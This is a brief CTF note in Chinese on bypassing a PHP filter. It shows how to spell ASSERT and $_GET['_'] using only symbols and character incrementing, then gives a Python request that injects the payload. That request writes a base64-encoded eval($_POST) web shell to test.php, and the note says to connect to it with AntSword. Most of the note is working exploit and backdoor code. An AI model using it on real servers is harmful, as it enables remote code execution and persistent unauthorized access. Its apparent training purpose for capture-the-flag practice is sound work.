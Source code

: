 tags:: CTFWEB/PHP/WAF绕过

- # 思路
	- 利用php中char的自增特性进行无数字字母RCE
- # 构造字母A
	- 将一个数组转换成字符串`Array`，然后取第一个字符
	- ```python
	  [
	    "$_=[];",
	    '$_="$_";',
	    "$_=$_[$_==__];",
	  ]
	  ```
- # 利用字母A构造其他字母
	- 如果`$__`是字母A,那么利用自增`$__++`就可以得到字母B等
	- 这样只可以得到大写字母
- # payload构造
	- 构造出`ASSERT`以及`$_GET['_']`
		- ```python
		  def append_char(c):
		      return [
		          "$__=$_;", # A
		          *["$__++;" for _ in range(ord("A"), ord(c))],
		          "$___=$___.$__;"
		      ]
		  
		  cmd = [
		      "$_=[];",
		      '$_="$_";',
		      "$_=$_[$_==__];",
		      '$___="";',
		      *append_char("A"),
		      *append_char("S"),
		      *append_char("S"),
		      *append_char("E"),
		      *append_char("R"),
		      *append_char("T"),
		      "$____=$___;", # ASSERT
		      '$___="_";',
		      *append_char("G"),
		      *append_char("E"),
		      *append_char("T"),
		      "$_____=$___;", # _GET
		      "$______=${$_____}['_'];" # $_GET['_'];
		  ]
		  ```
	- 然后这么使用
		- ```python
		  r = base_get(url, params = {
		      "wllm": "CMD?><?=@$____($______)?>___>_<!!".replace("CMD", "".join(cmd)),
		      "_": "file_put_contents('test.php', base64_decode('PD9waHAKZXZhbCgkX1BPU1RbZGF0YV0pOwo/Pg=='));"
		  }, acceptable_code=[200, 500])
		  print(r.status_code)
		  print(r.text.rpartition("</code>")[2])
		  ```
	- 写马用蚁剑连上就行